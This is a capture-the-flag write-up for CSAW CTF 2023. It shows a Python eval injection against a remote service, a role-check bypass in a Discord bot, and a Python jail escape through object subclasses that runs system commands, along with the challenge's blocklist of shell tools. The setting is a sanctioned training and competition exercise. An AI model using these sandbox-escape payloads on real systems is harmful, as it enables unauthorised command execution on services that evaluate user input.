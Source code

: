 #ctf #csaw-ctf-2023 #misc #web #python-jail-escape #http-request-smuggling #discord #discord-bot 
# Intro

> Only played a little for this
## my_first_pwnie

### Info

You must be this 👉 high to ride.

Author: `ElykDeer`

---

Connect with:

`nc intro.csaw.io 31137`

### Solve

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/csaw-ctf-2023]
└─$ rlwrap nc intro.csaw.io 31137
What's the password? __import__('os').system('cat /flag.txt')
csawctf{neigh______}
You entered `0`
Nay, that's not it.
```

# Web

## Smug-Dino

### Info

Don't you know it's wrong to smuggle dinosaurs... and other things?

Author: `rollingcoconut`

---

[http://web.csaw.io:3009/](http://web.csaw.io:3009/)

### Solve

HTTP request smuggling

![](attachment/f4ef1672dd433e17fecd164124922a51.png)

![](attachment/b62d54d854c1bc08f911bd0d598fc3be.png)

# Misc

## Discord Admin Bot

### Info

Join discord and get the flag.

discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23

`Author: Krishnan Navadia`

### Solve

![](attachment/95dc092681dd6b4f5b3c5592c4ac6fed.png)

There's no way I get admin role at the server, but it's not strictly checking for `role_id`, 

so I can invite the bot to my own server, then give myself a role called `admin`

![](attachment/aa1d27a95942e2eee09f15c5b1166670.png)

The pyjail uses `eval()` to wrap user input

![](attachment/fe909dc876eec6c063e21cf1e1e66642.png)

It doesn't ban `class`

```python
SHELL_ESCAPE_CHARS = [":", "curl", "bash", "bin", "sh", "exec", "eval,", "|", "import", "chr", "subprocess", "pty", "popen", "read", "get_data", "echo", "builtins", "getattr"]

def excape_chars(strings_array, text):
    return any(string in text for string in strings_array)
```

Invite that bot by copying its id, then fit in the invite url format : `https://discord.com/oauth2/authorize?client_id=1152454751879962755&scope=bot&permissions=8`

![](attachment/e41383a95946744af032cbc898a83295.png)

Craft payload :

First mirror the functions in `ipython3` to test on local

```python
import subprocess, os

SHELL_ESCAPE_CHARS = [":", "curl", "bash", "bin", "sh", "exec", "eval,", "|", "import", "chr", "subprocess", "pty", "popen", "read", "get_data", "echo", "builtins", "getattr"]

def excape_chars(strings_array, text):
    return any(string in text for string in strings_array)

def pyjail(text):
    if excape_chars(SHELL_ESCAPE_CHARS, text):
        return "No shells are allowed"

    text = f"print(eval(\"{text}\"))"
    proc = subprocess.Popen(['python3', '-c', text], stdout=subprocess.PIPE, preexec_fn=os.setsid)
    output = ""
    try:
        out, err = proc.communicate(timeout=1)
        output = out.decode().replace("\r", "")
        print(output)
        print('terminating process now')
        proc.terminate()
    except Exception as e:
        proc.kill()
        print(e)

    if output:
        return f"```{output}```"
```

![](attachment/7f591a94403f6c975e4e3650615b7735.png)

```bash
In [3]: pyjail("''.__class__.__mro__[1].__subclasses__()")
```

![](attachment/83ed303e1537f7688ab800bd84ba58a5.png)

Success

```bash
In [14]: pyjail("''.__class__.__mro__[1].__subclasses__()[140].__init__.__globals__['system']('pwd')")
/home/kali/ctf/csaw-ctf-2023
0

terminating process now
Out[14]: '```/home/kali/ctf/csaw-ctf-2023\n0\n```'
```

Final payload :

```bash
print(''.__class__.__mro__[1].__subclasses__()[140].__init__.__globals__['system']('cat flag.txt'))
```

